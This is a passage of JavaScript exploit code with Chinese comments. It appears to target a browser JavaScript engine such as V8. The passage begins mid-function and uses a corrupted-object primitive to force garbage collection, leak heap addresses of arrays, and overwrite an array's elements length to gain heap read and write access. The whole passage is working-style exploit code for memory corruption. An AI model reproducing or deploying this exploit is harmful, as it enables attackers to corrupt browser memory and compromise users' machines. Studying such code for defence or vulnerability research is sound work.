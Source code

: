 ```javascript
    object_1.regular_prop = 1.1
  });


  return [object_1, object_2];
}

double_arr = [1.1]
obj_arr = [double_arr, {}]

// 循环是为了多触发几次 GC
// 2 次 GC 后 double_arr elements 的内存位置会变得稳定下来
// 在后面的整个利用过程中不再变化
// 如果没有这个循环，这里读出的 elements 后面会被 GC 移动到别的地方，导致利用失效、崩溃
for (let i = 0; i < 20; ++i) {
	proto1 = {};
	const [o1, o2] = createCorruptedPair(proto1, 1.1, obj_arr)

	read_props_elems = (o) => {
		return o.corrupted_prop;
	}

	for (let i = 0; i < 10000; ++i) {
		read_props_elems(o1);
	}

	// 读取 obj_arr 数组的 elements
	obj_arr_elems = high32u(ftou(read_props_elems(o2)));
	console.log('obj arr elems:', obj_arr_elems.toString(16));
}

// 从 elements[0] 读取 double_arr 指针

v1 = [1.1, 1.2, 1.3];
v1.p = 1;

proto2 = {};
const [oa, ob] = createCorruptedPair(proto2, v1, utof(BigInt(`0x${obj_arr_elems.toString(16)}00000000`)));

read_heap_mem = (o) => {
	return o.corrupted_prop[0];
}

for (var i = 0; i < 100000; ++i)
	read_heap_mem(oa);

double_arr_start = low32u(ftou(read_heap_mem(ob)));
console.log('obj_arr[0]:', double_arr_start.toString(16));

// 修改 double_arr 的 elements
const elements_offset = 0x8;

elems_len = utof(BigInt(`0x000000f0${obj_arr_elems.toString(16).padStart(8, '0')}`));

write_heap_mem = (o) => o.corrupted_prop[0] = elems_len;

proto3 = {}
const [oc, od] = createCorruptedPair(proto3, v1, utof(BigInt(`0x${double_arr_start.toString(16)}00000000`)));

for (let i = 0; i < 100000; ++i)
	write_heap_mem(oc);
```